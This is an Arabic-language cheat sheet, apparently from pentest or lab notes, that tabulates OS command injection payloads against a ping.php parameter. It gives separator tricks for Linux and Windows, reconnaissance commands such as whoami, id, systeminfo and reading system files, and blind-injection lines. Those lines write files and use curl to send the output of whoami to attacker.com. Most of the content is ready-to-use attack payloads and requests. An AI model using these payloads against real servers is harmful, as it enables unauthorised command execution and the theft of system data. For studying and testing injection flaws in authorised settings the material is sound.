 
## ملخص جميع المحاولات
### اختبار فواصل الأوامر
| **الغرض**                     | **الإدخال**                                                                 | **الطلب**                                                                 | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------|---------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| فاصل `;` (Linux)             | `127.0.0.1; whoami`                                                         | `GET /ping.php?ip=127.0.0.1; whoami`                                      | لاختبار Command Injection على Linux.                                             |
| فاصل `&&` (Linux)            | `127.0.0.1 && whoami`                                                       | `GET /ping.php?ip=127.0.0.1 && whoami`                                    | إذا كان الأمر الأصلي يحتاج إلى نجاح.                                            |
| فاصل `&` (Windows)           | `127.0.0.1 & whoami`                                                        | `GET /ping.php?ip=127.0.0.1 & whoami`                                     | لاختبار Command Injection على Windows.                                           |
| فاصل `||` (Linux)            | `127.0.0.1 || whoami`                                                       | `GET /ping.php?ip=127.0.0.1 || whoami`                                    | إذا كان الأمر الأصلي قد يفشل.                                                    |
| أنبوب `|` (Linux)            | `127.0.0.1 | whoami`                                                        | `GET /ping.php?ip=127.0.0.1 | whoami`                                     | لاختبار سلوك الأنبوب.                                                           |

### أوامر استكشاف النظام
| **الغرض**                     | **الإدخال (Linux)**                                                        | **الإدخال (Windows)**                                                    | **النتيجة المتوقعة**                                                     | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------|---------------------------------------------------------------------------|---------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| معرفة المستخدم               | `127.0.0.1; whoami`                                                         | `127.0.0.1 & whoami`                                                     | `www-data` أو `Administrator`                                             | لتحديد صلاحيات التطبيق.                                                         |
| معلومات النظام               | `127.0.0.1; id`                                                             | `127.0.0.1 & systeminfo`                                                 | `uid=33(www-data)` أو إصدار Windows                                      | لتحديد نوع النظام والإصدار.                                                     |
| عرض الملفات                  | `127.0.0.1; ls`                                                             | `127.0.0.1 & dir`                                                        | قائمة الملفات (مثل `index.php`)                                          | لاستكشاف دليل التطبيق.                                                          |
| قراءة ملف                    | `127.0.0.1; cat /etc/hostname`                                              | `127.0.0.1 & type C:\Windows\System32\drivers\etc\hosts`                 | اسم الخادم أو محتويات ملف `hosts`                                        | لاختبار الوصول إلى ملفات.                                                       |
| اختبار الاتصال               | `127.0.0.1; ping -c 1 attacker.com`                                         | `127.0.0.1 & ping -n 1 attacker.com`                                     | استجابة من `attacker.com`                                                | للتحقق من الاتصال الخارجي.                                                      |

### أوامر اختبار Blind Injection
| **الغرض**                     | **الإدخال (Linux)**                                                        | **الإدخال (Windows)**                                                    | **النتيجة المتوقعة**                                                     | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------|---------------------------------------------------------------------------|---------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| إنشاء ملف                    | `127.0.0.1; echo "Hacked" > /tmp/test.txt`                                  | `127.0.0.1 & echo Hacked > C:\Temp\test.txt`                             | إنشاء ملف `test.txt`                                                     | عند عدم ظهور مخرجات الأوامر.                                                    |
| إرسال بيانات خارجية          | `127.0.0.1; curl http://attacker.com?data=$(whoami)`                        | `127.0.0.1 & curl http://attacker.com?data=%USERNAME%`                   | طلب HTTP يصل إلى خادمك                                                  | لتأكيد التنفيذ عبر الاتصال الخارجي.                                             |